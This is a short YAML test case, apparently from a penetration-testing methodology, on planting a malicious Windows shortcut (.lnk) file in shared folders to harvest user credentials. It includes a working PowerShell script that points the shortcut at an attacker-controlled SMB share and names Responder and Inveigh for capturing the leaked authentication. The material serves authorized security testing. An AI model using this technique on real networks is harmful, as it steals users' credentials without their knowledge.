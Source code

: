 ```yaml
---
testcase: Interacting with Users - Malicious .lnk File in Modern Environments
platforms:
  - AD
  - Windows
methodology:
  - BlackBox
  - GreyBox
references:
  - https://attack.mitre.org/techniques/T1552/
how-to-test: |
  - Generate a malicious .lnk file using PowerShell or a tool like Lnkbomb, targeting an attacker-controlled SMB share.
  - Place the .lnk file in a location likely to be browsed by users (e.g., shared folders).
  - Monitor for authentication events and capture exposed credentials using tools such as Responder or Inveigh.
  - Example PowerShell script to create a malicious .lnk file:

    ```powershell
    $objShell = New-Object -ComObject WScript.Shell
    $lnk = $objShell.CreateShortcut("C:\legit.lnk")
    $lnk.TargetPath = "\\<attackerIP>\@pwn.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
    $lnk.HotKey = "Ctrl+Alt+O"
    $lnk.Save()
    ```
---
```

